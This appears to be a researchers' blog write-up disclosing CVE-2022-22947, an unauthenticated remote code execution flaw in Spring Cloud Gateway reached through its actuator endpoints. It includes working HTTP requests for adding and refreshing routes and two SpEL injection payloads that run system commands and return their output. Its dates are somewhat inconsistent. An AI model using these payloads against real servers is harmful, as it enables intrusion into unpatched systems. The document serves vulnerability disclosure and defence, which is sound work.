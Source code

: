 ```yaml
---
layout: post
title:  "[CVE-2022-22947] Spring Gateway Unauth RCE"
date:   2022-01-18 21:11:53 +0700
author: hoangnx99, rskvp93 (from Viettel Cyber Security)
categories: jekyll update
---
```


<i> In this blog, we will introduce our new 0-day vulnerability of Spring Cloud Gateway that we had just found out in the first of 2021. This vulnerability was reported to `VMWARE` and they had just been released the patch in the new version which released on 01/03/2021.
</i>

<b>Note: </b>
<i>Update in 01/03/2022: 
- 16/01/2022: We reported to VMware and being assigned for triage after that. 
- 16/02/2022: Ask for any update and get my first 0day <b>DUPLICATE</b>
![](/assets/spring-gateway/duplicate.png)
- 01/03/2022: VMware release new version, duplicated guy also release the new blog about this.
![](/assets/spring-gateway/dup-date.png)
![](/assets/spring-gateway/my-date.png)

Seem that we reported later than him 1day. T.T

# I. Inspiration
The vulnerability was inspired by the blog `https://wya.pl/2021/12/20/bring-your-own-ssrf-the-gateway-actuator/` which was released on 20th December 2021. From this blog, the author ends with the SSRF by designing with the exposed `actuator` endpoint. After reading the docs of `Spring Cloud Gateway`, @rskvp93 - my mentor, comes with the idea of using `global filter` to gain the Remote Code Execution through EL Injection. 

# II. Detail Analysis:
## 1. Functional Design:
![](/assets/spring-gateway/sping_cloud_gateway_diagram.png)

As the above picture, Sping Cloud Gateway is a tool that provides out-of-the-box routing mechanisms often used in microservices applications as a way of hiding multiple services behind a single facade. To routing requests, the Spring Cloud Gateway forwards requests to `Gateway Handler Mapping` which route will be transferred to. 

Moreover, `Spring Cloud Gateway` also provides some built-in <b>`Gateway Filter`</b> which allow the modification of the incoming HTTP request or outgoing HTTP response in some manner. 

## 2. Gateway Filter:
There is a list of public endpoint `/actuator` that can help us to construct a route with any filter. 
![](/assets/spring-gateway/actuator-gateway-endpoints.png)

As the analysis of the above blog, we will summary some promising endpoints:
### 2.1. List all route:

```
GET /actuator/gateway/routes HTTP/1.1
Host: 192.168.137.120:9000
Connection: close


```

![List Route](/assets/spring-gateway/list-routes.png)

### 2.2. Add a route:

```
POST /actuator/gateway/routes/test HTTP/1.1
Host: 192.168.137.120:9000
Connection: close
Content-Type: application/json
Content-Length: 334

{
  "predicates": [
    {
      "name": "Path",
      "args": {
        "_genkey_0": "/abc/**"
      }
    }
  ],
  "filters": [
    {
      "name": "AddRequestParameter",
      "args": {
        "_genkey_0": "X-Custom",
        "_genkey_1": "Test"
      }
    }
  ],
  "uri": "https://httpbin.org",
  "order": 0
}
```

![List Route](/assets/spring-gateway/new-route.png)
### 2.3. Refresh route:
After adding a route, all the new route need a subsequent request to make the application recognize.

```
GET /actuator/gateway/refresh HTTP/1.1
Host: 192.168.137.120:9000
Connection: close


```

![Refresh Route](/assets/spring-gateway/refresh.png)

At now, a new route had added and the route can be accessed at `abc` endpoint with the new response header `X-Custom: Test ` which is added by the filter.

![Result Route](/assets/spring-gateway/result-route.png)
 
In the previous chapter, we introduce Spring Cloud Gateway functionality, its filter, and how to construct a route through `/actuator` endpoint.  
## 3. Digging Deeper Into Defining a Route:

After exploring the Spring Gateway filter through its docs, we were attracted to a part about using SpEL Expression to config the filter. This part of the document makes us dig into how to construct a route and find a way to do EL Injection. 
![Result Route](/assets/spring-gateway/EL.png)

<i> Let see what happen when adding a new route ? </i>

A route after adding with `/actuator` endpoint will be a push to the routing cache. To Publish to the route, a `refresh` request must be made and all the route list arrays in the cache will be popped and converted one by one to a `Route`. We can define the `filter` and `predicate` as this example:

```
"filters": [
    {
      "name": "AddResponseHeader",  #Name of the filter
      "args": {
        "_genkey_0": "X-Custom",    #arg1: headername 
        "_genkey_1": "${abcc}"      #arg2: headervalue
      }
    }
  ]
```

![filter](/assets/spring-gateway/filter-definition.png) 
![filter](/assets/spring-gateway/filter.png) 

With every argument which passes into, the value will be considered which is spel expression by checking if the string starts with `#{` and ends with `}`. 
![filter](/assets/spring-gateway/getvalue.png)
![filter](/assets/spring-gateway/elinjection.png)

Therefore, This code is vulnerable to EL Injection and leads to RCE. There are many ways that you can exploit this vulnerability with any payload of EL Injection which can be found on the internet. However, to construct a payload that is available in as many cases as possible, we choose the payload that can reflect the command output to the response.

```
#{new java.util.Scanner(''.getClass().forName('java.lang.Runtime').getRuntime().exec('whoami').getInputStream()).useDelimiter('\\A').next().replace('\n',' ')}
```

![filter](/assets/spring-gateway/result1.png)
![filter](/assets/spring-gateway/result2.png)

We had tested above payload on Java 11 but in newer version (java 17), the payload for EL Injection is quite different and you can try this poc:

```
#{new java.util.Scanner(T(java.lang.Process).getMethod('getInputStream').invoke(T(java.lang.Runtime).getRuntime().exec(new String[]{'ls'}))).useDelimiter('\A').next().replace('\n',' ')}
```

# III. Conclusion:
To sum up, our research could leverage SSRF to RCE through EL Injection. However, this vulnerability can migrate easily by limiting the access to `/actuator` endpoint. 

# IV. Credit:
nxhoang99 and rskvp93 from VcsLab of Viettel Cyber Security.
